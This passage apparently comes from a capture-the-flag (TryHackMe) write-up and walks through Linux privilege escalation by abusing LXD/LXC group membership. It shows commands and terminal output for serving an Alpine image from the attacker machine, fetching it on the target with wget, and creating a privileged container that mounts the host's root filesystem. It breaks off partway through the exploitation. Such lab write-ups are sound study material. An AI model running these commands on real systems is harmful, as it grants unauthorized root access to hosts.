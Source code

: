   ```
- We are still on our own machine, go to the directory where image file is and run Python HTTP server, then download the file to target machine with `wget`.

  ```
  ATACKER:
  python3 -m http.server 80

  TARGET:
  wget http://[YOUR-THM-IP]/alpine.tar.gz

  john@exploitable:~$ wget http://[YOUR-THM-IP]:80/alpine.tar.gz
  --2025-05-14 20:16:03--  http://[YOUR-THM-IP]2/alpine.tar.gz
  Connecting to [YOUR-THM-IP]:80... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 3259593 (3.1M) [application/gzip]
  Saving to: ‘alpine.tar.gz’
  
  alpine.tar.gz                 100%[==============================================>]   3.11M  3.70MB/s    in 0.8s    
  
  2025-05-14 20:16:04 (3.70 MB/s) - ‘alpine.tar.gz’ saved [3259593/3259593]
  
  john@exploitable:~$ ls
  alpine.tar.gz  user.txt
  ```

- Now the best part, exploitation. On target machine, these are the following commands I used, there's couple of different ways for exploitation, after them I'll post how it looked in action. Import then proceed with commands.

  ```
  lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias pwned
  lxc init pwned breakout -c security.privileged=true
  lxc config device add breakout mydev disk source=/ path=/mnt/root recursive=true
  lxc start breakout
  lxc exec breakout /bin/sh
  ```

  Now in action, I changed image file to `alpine.tar.gz` so I don't have to type all of these numbers.

  ```
  john@exploitable:~$ ls
  alpine.tar.gz  user.txt
  
  john@exploitable:~$ lxc image import alpine.tar.gz --alias pwned
  Image imported with fingerprint: [SNIP!]
  
  john@exploitable:~$ lxc init pwned backdoor -c security.privileged=true
  Creating backdoor
  
  john@exploitable:~$ lxc config device add backdoor hackroot disk source=/ path=/mnt/root recursive=true
  Device hackroot added to backdoor
  